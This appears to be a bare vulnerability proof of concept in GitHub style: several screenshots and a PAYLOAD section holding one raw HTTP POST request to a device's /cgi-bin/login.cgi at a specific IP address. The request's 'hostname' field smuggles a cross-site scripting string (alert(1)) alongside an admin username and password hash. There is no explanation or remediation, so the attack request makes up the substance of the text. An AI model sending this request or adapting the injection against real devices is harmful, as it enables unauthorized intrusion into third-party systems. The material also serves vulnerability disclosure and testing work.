 # 

![image](https://user-images.githubusercontent.com/72059221/167049389-760be75c-6d84-45f6-a8aa-ff4e7e05241b.png)



![image](https://user-images.githubusercontent.com/72059221/167049403-82f98ff0-6774-4a6f-99f4-f712824c765b.png)



![image](https://user-images.githubusercontent.com/72059221/167049414-0eceb092-33b3-4bf6-93af-1e080c4fb314.png)


## PAYLOAD

```
POST /cgi-bin/login.cgi HTTP/1.1 Host: 98.127.66.193 Content-Length: 255 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://98.127.66.193 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://98.127.66.193/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close newUI=1&page=login&username=admin&langChange=0&ipaddr=171.113.240.243&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&hostname=")&lt;/&gt;&lt;&gt;alert(1)&lt;/&gt;&key=M27234733&password=63a36bceec2d3bba30d8611c323f4cda&lang_=cn
```



![image](https://user-images.githubusercontent.com/72059221/167049430-31952408-b40b-4263-a16f-41a3634540bf.png)


![image](https://user-images.githubusercontent.com/72059221/167049442-fc47e4a5-ec10-4feb-9488-70b86c07ec8c.png)


